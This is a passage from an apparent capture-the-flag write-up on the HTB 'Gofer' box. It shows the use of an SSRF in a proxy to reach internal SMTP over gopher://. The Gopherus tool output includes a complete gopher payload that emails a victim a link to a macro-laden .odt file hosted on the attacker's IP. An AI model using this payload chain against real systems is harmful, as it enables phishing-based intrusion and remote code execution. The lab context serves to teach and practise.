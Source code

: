 ```
PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>
```
{% endcode %}

We need to use an `.odt` format to exploit this, and it appears that this is from the user Jeff Davis from the company site (with a username of `jdavis`, so we know the username naming convention).&#x20;

Since we have some kind of SSRF on the `proxy` service, we might be able to force a user to download and execute a malicious `.odt` file via macros to get the first shell. However, we first need to find out how to send an email through the `proxy` to the user since SMTP is not publicly facing.&#x20;

Based on the box name alone, I sort of figured out that we need to use the `gopher://` protocol, which is used to send files to other users.&#x20;

{% embed url="https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2" %}

This repository can generate the payloads required:

{% embed url="https://github.com/tarunkant/Gopherus" %}

{% code overflow="wrap" %}
```
$ python2 gopherus.py --exploit smtp

                                                                                             
  ________              .__                                                                  
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                   
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                   
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                    
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                   
        \/       |__|        \/     \/                 \/                                    
                                                                                             
                author: $_SpyD3r_$                                                           
                                                                                             

Give Details to send mail: 

Mail from :  iamanidiot@gofer.htb
Mail To :  jhudson@gofer.htb
Subject :  hello testing
Message :  http://10.10.14.42/bad.odt

Your gopher link is ready to send Mail:                                                      
                                                                                             
gopher://127.0.0.1:25/_MAIL%20FROM:iamanidiot%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:iamanidiot%40gofer.htb%0ASubject:hello%20testing%0AMessage:http://10.10.14.42/bad.odt%0A.

-----------Made-by-SpyD3r-----------
```
{% endcode %}
